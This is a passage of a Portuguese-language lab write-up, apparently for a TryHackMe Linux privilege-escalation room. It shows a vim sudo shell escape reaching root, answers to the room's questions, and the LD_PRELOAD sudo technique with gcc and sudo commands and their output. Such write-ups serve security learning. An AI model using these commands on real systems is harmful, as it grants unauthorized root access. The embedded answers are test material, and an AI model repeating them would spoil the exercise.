 ```shell
user@debian:~$ sudo vim -c ':!/bin/sh'

sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# 
```
### Questões:

- a. ***How many programs is "user" allowed to run via sudo?*** *11* 

- b. ***One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?*** *apache2*

Para responder a questão b, basta realizar pesquisa no site GTFOBins.

## 7 - Sudo - Environment Variables 

O sudo pode ser configurado para herdar certas variáveis de ambiente do usuário.

Para checar tais informações, além das permissões, executa-se:

```shell
sudo -l
```
Saída com a parte de interesse:

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```
**LD_PRELOAD** e **LD_LIBRARY_PATH** são herdados do ambiente do usuário. **LD_PRELOAD** carrega um objeto compartilhado antes de qualquer outro quando um programa é executado. **LD_LIBRARY_PATH** fornece uma lista de diretórios onde as bibliotecas compartilhadas são pesquisadas primeiro.

Na VM usada na room, já existe um código para geração de um objeto compartilhado, a fim de demonstrar a exploração.

Para criar o objeto, execute:

```shell
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

A biblioteca (arquivo .so) foi criada e está no diretório ***/tmp***.

Agora, é possível executar um dos programas que se tenha permissão para executar via sudo (listado ao executar sudo -l), mas pode-se configurar a variável de ambiente LD_PRELOAD para o caminho completo do novo objeto compartilhado:

```shell
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
Por exemplo:

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
```